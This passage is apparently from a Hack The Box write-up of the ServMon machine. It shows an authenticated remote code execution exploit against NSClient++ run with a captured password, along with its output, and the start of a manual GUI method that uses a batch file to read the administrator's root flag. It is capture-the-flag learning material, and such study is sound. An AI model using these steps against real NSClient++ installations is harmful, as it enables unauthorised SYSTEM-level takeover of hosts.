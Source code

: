 I found this [script](https://www.nmmapper.com/st/exploitdetails/48360/42618/nsclient-05235-authenticated-remote-code-execution/) when I was searching for an NSClient++ exploit. It is an authenticated remote code execution (RCE) exploit. We have the password to the web client, so let's try it out.

```sh
[tyco㉿4YE: ~/htb/servmon]$ python3 api-rce.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c type C:\Users\Administrator\Desktop\root.txt

[!] Targeting base URL https://127.0.0.1:8443                                                                         
[!] Obtaining Authentication Token . . .                                                                              
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ                                                                  
[!] Enabling External Scripts Module . . .                                                                            
[!] Configuring Script with Specified Payload . . .                                                                   
[+] Added External Script (name: AJRNeBQyzT)                                                                          
[!] Saving Configuration . . .                                                                                        
[!] Reloading Application . . .                                                                                       
[!] Waiting for Application to reload . . .                                                                           
[!] Obtaining Authentication Token . . .                                                                              
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ                                                                  
[!] Triggering payload, should execute shortly . . . 
```

## small note

I tried several commands, one of which was `whoami`. Going back into the `Queries` tab, clicking the query, and running it will execute the command that you supplied in the script. `whoami` returned with `nt authority\system`, so I knew that this was the way to root the box. However, this script would often crash `NSClient++`, which required me to reset the box. The script also did not run a lot of the commands that I thought would work, so I moved to the GUI on NSClient++ to try to see if that would work.

## manual way via GUI

Since this script did not really get me RCE, I vaguely followed this [PoC](https://www.exploit-db.com/exploits/46802) on ExploitDB.

In my SSH session, I set up file called `bruh.bat` in `C:\Temp`

```
nadine@SERVMON C:\Temp>echo type C:\Users\Administrator\Desktop\root.txt > root.bat
```
